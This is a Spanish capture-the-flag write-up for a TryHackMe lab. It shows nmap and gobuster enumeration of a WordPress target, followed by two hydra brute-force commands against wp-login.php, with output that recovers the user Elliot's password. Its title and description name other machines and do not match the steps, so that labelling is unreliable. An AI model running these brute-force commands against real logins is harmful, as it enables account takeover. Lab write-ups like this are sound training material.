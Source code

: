 # Resolución de la Máquina: Bounty Hacker

- **Plataforma:** TryHackMe
- **Dificultad:** Medio
- **Fecha de resolución:** 25/06/2025
- **Sistema Operativo:** Linux


## Descripción

RootMe es una máquina de nivel introductorio diseñada para enseñar conceptos básicos de enumeración web,
explotación remota y escalada de privilegios en sistemas Linux. Es ideal para principiantes que buscan familiarizarse con el flujo típico de un ataque en entornos CTF.

Esta máquina es especialmente útil para:

> Enumeración de servicios expuestos

> Explotación de vulnerabilidades web (RCE)

> Ganancia de acceso inicial (low privilege shell)

> Escalada de privilegios mediante binarios SUID mal configurados

## Enumeración

### Escaneo con Nmap

```bash
─$ nmap --open -sS -T5 -n -sV -Pn 10.10.39.168 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-25 18:34 CEST
Nmap scan report for 10.10.39.168
Host is up (0.092s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.39 seconds
```
### Escaneo con gobuster

```bash
└─$ gobuster dir -u http://10.10.39.168/ -w /usr/share/wordlists/wfuzz/general/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.39.168/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/robots               (Status: 200) [Size: 41]
/admin                (Status: 301) [Size: 234] [--> http://10.10.39.168/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.39.168/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.39.168/css/]
/images               (Status: 301) [Size: 235] [--> http://10.10.39.168/images/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.39.168/js/]
/intro                (Status: 200) [Size: 516314]
/login                (Status: 302) [Size: 0] [--> http://10.10.39.168/wp-login.php]
/phpmyadmin           (Status: 403) [Size: 94]
/readme               (Status: 200) [Size: 64]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.39.168/feed/]
/sitemap              (Status: 200) [Size: 0]
/xmlrpc               (Status: 405) [Size: 42]
Progress: 952 / 953 (99.90%)
===============================================================
Finished
===============================================================
```
En robots.txt encontraremos un diccionario junto a la primera flag, para visualizarlo lo haremos como si de un sitio web más se tratase.
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Con un wget nos descargaremos este diccionario, lo limpiaremos debido a que hay muchas lineas repetidas.
```bash
wget http://10.10.196.195/fsocity.dic
sort -u archivo.txt > archivo_sin_repetidos.txt
```
Haremos un ataque de fuerza bruta con hydra únicamnete hacia el usuario, veremos que si el usuario existe el codigo de error es diferente y nos lo detecta.
Los parámetros del forumalario los podemos verificar enviando la petición de login hacia burpsuite.
```bash
└─$ hydra -I -L fsocity_clean.dic -p x 10.10.196.195 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=Invalid username" -t30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizatins, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 23:02:24
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:11452/p:1), ~382 tries per task
[DATA] attacking http-post-forms://10.10.196.195:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log%20In&testcooke=1:F=Invalid username
[STATUS] 1365.00 tries/min, 1365 tries in 00:01h, 10087 to do in 00:08h, 30 active
[STATUS] 1106.33 tries/min, 3319 tries in 00:03h, 8133 to do in 00:08h, 30 active
[443][http-post-form] host: 10.10.196.195   login: Elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: ELLIOT   password: x
[STATUS] 1028.86 tries/min, 7202 tries in 00:07h, 4250 to do in 00:05h, 30 active

```
Una vez detectado el usuario Eliot procederemos a lanzar el ataque de fuerza bruta contra la contraseña, hemos de tener en cuenta el campo F que detectara si las contraseñas probadas son incorrectas 
```bash
└─$ hydra -I -l ELLIOT -P fsocity_clean.dic 10.10.170.170 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=is incorrect" -t30                             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-29 16:00:37
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-forms://10.10.170.170:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=is incorrect

[STATUS] 2322.00 tries/min, 2322 tries in 00:01h, 9130 to do in 00:04h, 30 active
[443][http-post-form] host: 10.10.170.170   login: ELLIOT   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-29 16:03:07
```
